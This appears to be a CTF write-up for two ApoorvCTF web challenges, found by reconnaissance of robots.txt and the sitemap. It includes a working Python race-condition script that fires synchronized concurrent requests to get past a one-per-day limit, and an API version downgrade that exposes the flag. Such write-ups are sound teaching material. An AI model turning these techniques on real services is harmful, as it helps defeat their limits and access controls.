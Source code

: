 # Apoorvctf

1. By `HM`
- https://hackmd.io/@hmmm1337/ryLYSEXskx
    - ArchBTW
    - Blend in Disguise

2. By `Bytecodesky`

# SEO CEO - WEB
They're optimizing SEO to show this garbage?!

> Author: proximuz

[Web chall](https://seo-opal.vercel.app)

At first glance we can not do anything on the page, we do not have any functionality or vulnerability.
Automatically you think of doing reconnaissance, but you can't use automated tools, so you have to do a manual reconnaissance.
we start with the most common of all `/robots.txt`.

and we obtain the following

```
blud really thought itd be that easy
apoorvctf{c0me_0n_mAn_it5_t0o_e4sy}

```
we continue scanning the page, and go to `/sitemap.xml`.

```
<url>
<loc>https://www.thiswebsite.com/goofyahhroute</loc>
<lastmod>2025-02-26</lastmod>
<changefreq>never</changefreq>
<priority>0.0</priority>
</url>
```
and within the whole sitemap we found something interesting, apparently an example page that leads to a certain address, but obviously that domain is not valid, so the directory is a signal.

We enter `/goofyahhroute` and we get this
```
ok bro u da seo master gng frfr ngl no cap
but do you really want the "flag"?
come on blud, it's a yes or no question
yeah?
```

then we can deduce that we must pass the parameter **flag** and as value **yes**.
`/goofyahhroute?flag=yes`
and obtain the flag: `apoorvctf{s30_1snT_0pt1onaL}`

2. By `x.two`

# Blog-1 - Web

### Description

In the digital realm, Blog-1 awaited brave developers. The mission? Craft a captivating blog with enchanting posts, lively comments, and secure user authentication. Create a functional and visually stunning masterpiece. Ready for the Blog-1 adventure?


### Solution

We have basic web page where we can register user and login with it. Exploring menu items, we have option of `Daily Rewards`

![Claim](../images/claim.png)


We can see that we have to write 5 blogs to claim the reward (which is probably our flag). But when we try to write 2 blogs, it tells us that we can only write one blog per day. This suggests that there might be a race condition vulnerability, where we can send multiple concurrent requests.

I used this script to write multiple blogs at once:


```python
import requests
import threading
import time
import uuid

SUCCESS_COUNT = 0
SUCCESS_LOCK = threading.Lock()
BARRIER = threading.Barrier(5)  # Strict synchronization for 5 warriors

def domain_expansion(session):
    global SUCCESS_COUNT
    try:
        # Wait for all threads to reach this point
        BARRIER.wait()
        
        url = "http://chals1.apoorvctf.xyz:5001/api/v1/blog/addBlog"
        headers = {
            "authorization": "Bearer [token]",
            "Content-Type": "application/json",
            "X-Request-ID": str(uuid.uuid4())  # Bypass duplicate request detection
        }
        
        payload = {
            "title": f"Limitless Void {uuid.uuid4().hex[:6]}",  # Unique title each request
            "description": "Cursed Technique: Maximum Output",
            "content": "Domain Expansion: Infinite Void"
        }

        # Surgical strike with precise timing
        response = session.post(
            url,
            headers=headers,
            json=payload,
            timeout=15  # Extended timeout for server processing
        )

        if response.status_code == 201:
            with SUCCESS_LOCK:
                SUCCESS_COUNT += 1
                print(f"Domain expanded! Success #{SUCCESS_COUNT}")
        else:
            print(f"Blocked: {response.status_code} | {response.text}")

    except Exception as e:
        print(f"Curse energy leak: {str(e)}")

if __name__ == "__main__":
    # Create 5 dedicated cursed techniques
    sessions = [requests.Session() for _ in range(5)]
    
    threads = []
    for i in range(5):
        t = threading.Thread(target=domain_expansion, args=(sessions[i],))
        threads.append(t)
        t.start()
        time.sleep(0.001)  # Nanosecond-level stagger
    
    # Wait for all techniques to complete
    for t in threads:
        t.join()
    
    print(f"\nTotal successful domain expansions: {SUCCESS_COUNT}")
    print("If <5, repeat until the barrier breaks!")
```


And we successfully wrote 5 blogs. Visiting `Daily Reward` option sends request to `/api/v2/gift` endpoint which contains this:

![claim2](../images/claim2.png)


This links to a troll youtube video:

https://youtu.be/WePNs-G7puA?si=DOUFW9vAgUKdClxX


But changing the endpoint back to `/api/v1/gift` gives us our flag:

apoorvctf{s1gm@_s1gm@_b0y}
